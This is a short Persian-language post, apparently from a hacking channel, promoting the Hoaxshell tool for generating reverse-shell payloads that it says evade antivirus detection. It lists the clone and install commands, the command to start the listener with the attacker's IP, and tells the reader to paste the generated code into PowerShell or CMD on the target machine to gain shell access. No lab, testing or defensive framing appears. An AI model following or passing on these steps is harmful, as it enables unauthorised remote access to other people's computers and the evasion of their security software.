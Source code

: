 Hoaxshell  👉 پیلود چیست؟

با استفاده از این ابزار میتونید خیلی راحت پیلود reverse shell بسازید یا به عبارتی دیگر با استفاده از پیلود ساخته شده با این ابزار میتونید دسترسی شل از سیستم بگیرید !💀

این ابزار قادر به ساخت پیلودی است که به راحتی با آنتی ویروس ها شناسایی نمیشه !🕷️
🟡خب بریم برای نصب : 💥

git clone https://github.com/t3l3machus/hoaxshell 

cd ./hoaxshell

sudo pip3 install -r requirements.txt

chmod +x hoaxshell.py

بعد نصب برای ساخت پیلود دستور زیرو بزنید 💀

sudo python3 hoaxshell.py -s <your_ip>

بعد توی خروجی شما با یه کد مواجه میشید اون اصل کاری هستش  و باید توی  PowerShell یا CMD سیستم مورد نظر وارد کنید
